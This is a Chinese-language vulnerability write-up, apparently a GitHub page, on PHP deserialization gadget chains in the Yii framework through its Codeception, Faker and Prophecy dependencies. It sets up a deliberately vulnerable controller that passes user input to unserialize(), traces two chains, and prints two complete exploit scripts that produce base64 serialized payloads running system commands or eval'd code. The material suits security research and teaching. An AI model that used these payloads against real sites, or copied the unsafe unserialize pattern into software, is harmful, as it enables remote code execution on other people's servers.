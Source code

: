 # 环境搭建
> 修改`config\web.php`中的`cookieValidationKey`为任意值来作为`yii\web\Request::cookieValidationKey`的加密值，不设置的话将会发生报错

> 添加一个`Controller`来作为反序列化漏洞的触发点

```php
<?php

namespace app\controllers;
use yii\web\Controller;

class DemoController extends Controller{
    public function actionDemo($data){
        return unserialize(base64_decode($data));
    }
}
```

# 漏洞分析
> 全局搜索`__destruct()`来寻找反序列化的触发点，查看每个`__destruct()`方法后发现之前许多可以利用的出发点都加上了`__wakeup()`方法来修补反序列化的漏洞

<img src="./反射和Yii/yii-1.png" alt="">

## POC链-1
> 跟进`vendor\codeception\codeception\ext\RunProcess.php`中的`__destruct()`方法，其会调用`stopProcess()`方法，先对`$this->processes`数组变量进行翻转，由于`$process`变量是可控的，因此可以通过寻找`__call()`方法来进一步寻找利用链

<img src="./反射和Yii/yii-2.png" alt="">

> 跟进`vendor\fakerphp\faker\src\Faker\ValidGenerator.php`中的`__call()`方法，在 while 语句中存在`call_user_func()`方法，由于`$this->validator`是可控的，所以当`$res`可控时，即可造成命令执行函数的利用，因此需要寻找一个类中的`__call()`方法是返回一个可控的变量值的

<img src="./反射和Yii/yii-3.png" alt="">

> 跟进`vendor\fakerphp\faker\src\Faker\DefaultGenerator.php`中的`__call()`方法，其返回值是可控的变量值，成功构成一条闭合的利用链

<img src="./反射和Yii/yii-4.png" alt="">

### exp
```php
<?php

namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($payload) {
			$this->default = $payload;
		}
	}
	class ValidGenerator {
    	protected $generator;
    	protected $validator;
    	protected $maxRetries;
    	public function __construct($payload) {
    		$this->generator = new DefaultGenerator($payload);
    		$this->validator = "system";
    		$this->maxRetries = 1;
    	}
	}
}

namespace Codeception\Extension {
	use Faker\ValidGenerator;
	class RunProcess {
		private $processes = [];
		public function __construct($payload="") {
			$this->processes[] = new ValidGenerator($payload);
		}
	}
	echo base64_encode(serialize(new RunProcess("calc")));
}
?>
```

### POC链利用流程图
<img src="./反射和Yii/yii-5.png" alt="">

## POC链-2
> 起始点不变，跟进 `vendor\phpspec\prophecy\src\Prophecy\Prophecy\ObjectProphecy.php`中的`__call()`方法，其会调用一个`reveal()`方法，且`$this->revealer`是可控的

<img src="./反射和Yii/yii-6.png" alt="">

> 尝试不使用本类的该方法而自动调用其他类中的该方法后发现无法利用，因此跟进本类中的`reveal()`方法，这里`$this->lazyDouble`是可控的，可以赋值为存在`getInstance()`方法的类

<img src="./反射和Yii/yii-7.png" alt="">

> 跟进`src/Prophecy/Doubler/LazyDouble.php`中的`getInstance()`方法，`$this->double`和`$this->arguments`均可控，此处进步进入if判断的语句都没有区别，最后调用的方法都是一样的，且`$this->doubler`可控，跟进`double()`方法，确认存在该方法的类，再对`$this->doubler`进行实例化类赋值即可，`$this->class`和`$this->interfaces`的赋值需要根据`double()`方法的参数类型来确定

<img src="./反射和Yii/yii-8.png" alt="">

> 继续跟进`src/Prophecy/Doubler/Doubler.php`中的`double()`方法，先用`ReflectionClass`类构建异常处理类的反射类来避免代码中异常抛出，从而走到调用`createDoubleClass()`方法

<img src="./反射和Yii/yii-9.png" alt="">

> 继续跟进`Doubler`类中的`createDoubleClass()`方法，这里`$name`和`$node`可以用`DefaultGenerator`类中的`__call()`方法来任意构造，从而进入`create()`方法

<img src="./反射和Yii/yii-10.png" alt="">

> 跟进`create()`方法，`$node`需要为`Node\ClassNode`类对象，这里利用`eval()`方法可以插入代码执行，还是用同样的方法来使得`$code`可控，实例化为`DefaultGenerator`类对象

<img src="./反射和Yii/yii-11.png" alt="">

### exp
```php
<?php
namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($cmd) {
			$this->default = $cmd;
		}
	}
}

namespace Prophecy\Doubler\Generator {
	use Faker\DefaultGenerator;
	class ClassCreator {
		private $generator;
		public function __construct($cmd) {
			$this->generator = new DefaultGenerator($cmd);
		}
	}
}

namespace Prophecy\Doubler\Generator\Node {
	class ClassNode {}
}

namespace Prophecy\Doubler {
	use Faker\DefaultGenerator;
	use Prophecy\Doubler\Generator\ClassCreator;
	use Prophecy\Doubler\Generator\Node\ClassNode;
	class Doubler {
		private $namer;
		private $mirror;
	    private $creator;
	    public function __construct() {
	    	$this->namer = new DefaultGenerator("H3rmesk1t");
	    	$this->mirror = new DefaultGenerator(new ClassNode());
	    	$this->creator = new ClassCreator("system('calc.exe');");
	    }
	}
}

namespace Prophecy\Doubler {
	use Prophecy\Doubler\Doubler;
	class LazyDouble {
		private $class;
		private $doubler;
	    private $argument;
	    private $interfaces;
	    public function __construct() {
	    	$this->doubler = new Doubler();
	        $this->argument = ["H3rmesk1t" => "H3rmesk1t"];
	        $this->class = new \ReflectionClass('Exception');
	        $this->interfaces[] = new \ReflectionClass('Exception');
	    }
	}
}

namespace Prophecy\Prophecy {
	use Prophecy\Doubler\LazyDouble;
	class ObjectProphecy {
		private $revealer;
		private $lazyDouble;
		public function __construct($cmd) {
			$this->revealer = $cmd;
			$this->lazyDouble = new LazyDouble();
		}
	}
}


namespace Codeception\Extension {
	use Prophecy\Prophecy\ObjectProphecy;
	class RunProcess {
		private $processes;
		public function __construct() {
			$cmd = new ObjectProphecy("H3rmesk1t");
			$this->processes[] = new ObjectProphecy($cmd);
		}
	}
	echo base64_encode(serialize(new RunProcess()));
}
?>
```

### POC链利用流程图
<img src="./反射和Yii/yii-12.png" alt="">

